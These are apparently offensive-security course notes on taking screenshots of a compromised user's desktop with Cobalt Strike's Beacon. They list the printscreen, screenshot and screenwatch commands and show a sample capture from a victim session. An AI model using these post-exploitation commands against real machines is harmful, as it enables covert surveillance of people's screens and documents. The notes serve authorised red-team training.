 Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

Beacon has multiple commands for taking screenshots which work in slightly different ways.

```shell
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```
```shell
beacon> screenshot
[*] received screenshot of Secret Application - Internet Explorer from bfarmer (61kb)
```

To see all the screenshots that have been taken, go to **View > Screenshots**.

![[Pasted image 20220831115517.png]]

